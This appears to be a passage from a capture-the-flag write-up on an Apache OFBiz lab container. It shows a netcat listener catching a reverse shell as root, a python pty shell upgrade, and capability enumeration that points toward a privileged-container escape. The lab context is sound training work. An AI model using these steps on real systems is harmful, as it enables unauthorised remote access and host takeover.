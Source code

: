 ```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.238] 37802
bash: cannot set terminal process group (30): Inappropriate ioctl for device
bash: no job control in this shell
root@335bd6937366:/usr/src/apache-ofbiz-17.12.01# 

```

`python3` isn’t installed, but `python` is:

```

root@335bd6937366:/usr/src/apache-ofbiz-17.12.01# python -c 'import pty;pty.spawn("bash")'
<-17.12.01# python -c 'import pty;pty.spawn("bash")'
root@335bd6937366:/usr/src/apache-ofbiz-17.12.01# ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@335bd6937366:/usr/src/apache-ofbiz-17.12.01# 

```

## Shell as root

### Enumeration

`capsh --print` will show the capabilities currently available inside the container:

```

root@335bd6937366:/# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=

```

When a docker container is run with `--privileged`, [the container get](https://capsule8.com/assets/ug/us-19-Edwards-Compendium-Of-Container-Escapes.pdf) `CAP_SYS_MODULE` (load a kernel module), `CAP_SYS_RAWIO` (access `/proc/kcore`, map `NULL`), and `CAP_SYS_ADMIN` (“true root” - `mount`, `debugfs`, more).
